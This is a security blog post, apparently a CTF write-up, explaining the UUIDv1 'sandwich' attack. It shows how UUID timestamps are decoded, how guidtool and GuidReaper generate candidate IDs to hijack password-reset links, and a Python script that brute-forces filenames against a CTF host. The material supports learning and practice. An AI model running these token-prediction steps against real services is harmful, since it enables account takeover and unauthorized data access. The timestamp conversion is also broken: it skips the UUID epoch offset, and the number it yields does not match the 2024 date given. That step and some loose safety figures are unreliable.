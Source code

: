 ```yaml
---
title: "UUID Sandwich Exploitation"
layout: post
---
```


### UUID Sandwich Attack – Version 1

A **UUID** (Universally Unique Identifier), also known as **GUID**, has both vulnerable versions and stronger iterations that have emerged over time. These randomly generated unique values are produced at micro- or nanosecond precision. Although the chance of duplication is extremely low, it is never truly zero. Identical values *can* be generated, though detecting them is extremely difficult. The probability of duplication is low but never zero.

**Example UUID**:  
```
f81d4fae-7dec-11d0-a765-00a0c91e6bf6
```

### Exploitation

The **Sandwich Attack** usually appears in **UUID version 1**, which relies on time and MAC address for generation. This can lead to vulnerabilities such as **Account Takeover, BOLA, or IDOR**. UUIDv1 values produced within the same timestamp can be duplicated, enabling exploitation.

On Linux, you can generate values with the `uuid` command.

UUID v1: `6ea0f896-3144-11ef-a367-005056260027` & `6f03f496-3144-11ef-86bc-005056260027`  
Here, the values `a367` and `86bc` differ, but the MAC portion `005056260027` remains constant.

UUID v4: `60a0cf20-f5a8-4ea2-9469-d4269f0a5bc8` & `62f4a612-6d64-48a2-a271-26217702999e`  
Here the difference is complete. UUIDv4 offers ~99.9% safety, but UUIDv1 significantly increases risk.

For exploitation, see Burp Suite extension:  
https://portswigger.net/bappstore/65f32f209a72480ea5f1a0dac4f38248  

Also reference: https://datatracker.ietf.org/doc/html/rfc4122  

![uuidv1](/img/UUID/uuidv1.png)

### 10 Sequential Generations

```js
f2c6e440-3145-11ef-8465-0800200c9a66
f2c6e441-3145-11ef-8465-0800200c9a66
f2c6e442-3145-11ef-8465-0800200c9a66
f2c6e443-3145-11ef-8465-0800200c9a66
f2c6e444-3145-11ef-8465-0800200c9a66
f2c6e445-3145-11ef-8465-0800200c9a66
f2c6e446-3145-11ef-8465-0800200c9a66
f2c6e447-3145-11ef-8465-0800200c9a66
f2c6e448-3145-11ef-8465-0800200c9a66
f2c6e449-3145-11ef-8465-0800200c9a66
```

As seen, time is highly sensitive:

`Timestamp: 139384289967400006`  
`Timestamp: 139384289967400007`  

The changing part `f2c6e447-3145-11ef` encodes the time. The MAC portion `08:00:20:0c:9a:66` often remains static.

### UUID Extraction

Example UUID: `5c1dba54-ee3e-11ee-a951-0242ac120002`  
Time portion: `1eeee3e5c1dba54`  

![uuid extract](/img/UUID/UUID2.jpg)

Decode timestamp:  

```js
printf "%d\n" 0x1eeee3e5c1dba54
139310590095899220
```

Convert to decimal:  

```sh
echo "scale=9; 139310590095899220 / 10^8" | bc
1393105900.958992200
```

This corresponds to Epoch time `Saturday, 30 March 2024 02:36:49`.  

Using GuidReaper:  

```js
GuidReaper -d "5c1dba54-ee3e-11ee-a951-0242ac120002"
GUID version: 1
Time: 2024-03-30 02:36:49.589922
Timestamp: 139310590095899220
Node: 2485377957890
MAC address: 02:42:ac:12:00:02
Clock sequence: 10577
```

Reverse engineering UUIDv1 allows exploitation using **Time Manipulation**.

### Exploitation Scenario

1. Suppose the system generates a password reset link using UUID.  
2. Attacker account: `uuid@attack.com`, victim account: `victim@attack.com`.  
3. Both trigger password reset at the same time.  

Victim link:  

```php
https://server/reset_password?reset=dc464b70-314a-11ef-8465-0800200c9a66&user=victim@attack.com
```  
Time: 2024-06-23 10:25:06.471000  

Attacker link:  

```php
https://server/reset_password?reset=de7a4270-314a-11ef-8465-0800200c9a66&user=uuid@attack.com
```  
Time: 2024-06-23 10:25:10.167000  

A 4-second difference shows how concurrency flaws could enable account takeover.  

With GuidTool, UUIDs can be generated for specific timestamps:  

```js
guidtool.py 667b8570-0d84-11ef-9ed0-0800200c9a66 -t "1923-10-29 20:30:00" -p 1 
```

This produces many values for a target time. Such weaknesses can lead to **BOLA**, **IDOR**, or **Account Takeover**.  

See: [Uuid-Exploitation](https://github.com/cagrieser/Uuid-Exploitation)  

### CTF Scenario

In an IguCTF challenge, we exploited UUIDv1 Sandwich to access unauthorized files and retrieve a flag.  

![igu cyber](/img/UUID/IguCyber.png)

Hashing filenames locally avoids server overload. Example script:  

```py
import hashlib
from colorama import init, Fore
import PyPDF2
import requests
import io 

init(autoreset=True)

target_hash = 'def3c4c32117683fcffad14e3b2a9b5d'

def md5_hash(text):
    return hashlib.md5(text.encode()).hexdigest()

def get_pdf_metadata_from_url(pdf_url):
    response = requests.get(pdf_url)
    if response.status_code == 200:
        pdf_content = response.content
        pdf_file = PyPDF2.PdfFileReader(io.BytesIO(pdf_content))
        return pdf_file.getDocumentInfo()
    return None

with open('FullAttackUUID.txt', 'r') as file:
    for line in file:
        filename = line.strip() + '.pdf'
        if md5_hash(filename) == target_hash:
            print(Fore.GREEN + f"Match found: {filename}")
            url = f"https://demindensimdiyegeldim.igusiber.com.tr/{filename}"
            metadata = get_pdf_metadata_from_url(url)
            if metadata:
                for key, value in metadata.items():
                    print(f"{key}: {value}")
            break
```

### Final

UUIDv1 is predictable due to timestamps and MAC addresses, making it exploitable. UUIDv4 is safer, but UUIDv1 remains in use, creating risks.

![exp](/img/UUID/exp.png)  
![uuid gif](/img/UUID/uuid.gif)
